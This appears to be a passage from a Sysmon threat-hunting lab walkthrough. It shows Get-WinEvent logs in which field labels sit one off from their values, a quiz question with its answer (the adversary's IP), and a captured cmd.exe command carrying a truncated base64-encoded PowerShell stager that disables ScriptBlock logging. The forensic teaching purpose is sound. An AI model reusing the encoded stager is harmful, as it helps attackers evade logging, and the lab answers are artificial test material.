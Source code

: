 ```
ProviderName : Microsoft-Windows-Sysmon
Id           : 3
Message      : Network connection detected:
               RuleName: 2018-02-05 07:08:38.572
               UtcTime: {b231f4ab-f2e9-5a77-0000-0010cb670802}
               ProcessGuid: 11020
               ProcessId: 0
               Image: DESKTOP-O153T4R\q
               User: tcp
               Protocol: true
               Initiated: false
               SourceIsIpv6: 172.168.103.167
               SourceIp: DESKTOP-O153T4R.SSG-350M
               SourceHostname: 52980
               SourcePort: 0
               SourcePortName: false
               DestinationIsIpv6: 172.168.103.188
               DestinationIp: ACA867BC.ipt.aol.com
               DestinationHostname: 80
               DestinationPort: 0
               DestinationPortName: %18
```
What is the IP of the adversary in Investigation 3.2?
*172.168.103.188*

```
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Investigations\Investigation-3.2.evtx -FilterXPath '*/System/EventID=1 and */EventData/Data[@Name="Image"]="C:\Windows\System32\cmd.exe"' | fl


TimeCreated  : 2/5/2018 7:08:53 AM
ProviderName : Microsoft-Windows-Sysmon
Id           : 1
Message      : Process Create:
               RuleName: 2018-02-05 07:08:53.715
               UtcTime: {b231f4ab-0305-5a78-0000-0010c8256402}
               ProcessGuid: 4804
               ProcessId: 0
               Image: 10.0.16299.15 (WinBuild.160101.0800)
               FileVersion: Windows Command Processor
               Description: Microsoft® Windows® Operating System
               Product: Microsoft Corporation
               Company: "C:\WINDOWS\system32\cmd.exe" /C "echo SQBmACgAJABQAFMAVgBFAFIAUwBpAG8ATgBUAEEAQgBMAEUALgBQAFMA
               VgBFAFIAcwBpAG8AbgAuAE0AYQBqAE8AUgAgAC0ARwBlACAAMwApAHsAJABHAFAARgA9AFsAUgBlAEYAXQAuAEEAUwBzAEUAbQBCAEwA
               WQAuAEcAZQB0AFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4A
               LgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAdABGAEkAZQBgAEwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkA
               UwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBmACgAJABHAFAA
               RgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAEUAdABWAEEAbABVAGUAKAAkAE4AVQBMAEwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMA
               YwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsA
               JwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcA
               ZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsA
               JwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAA
```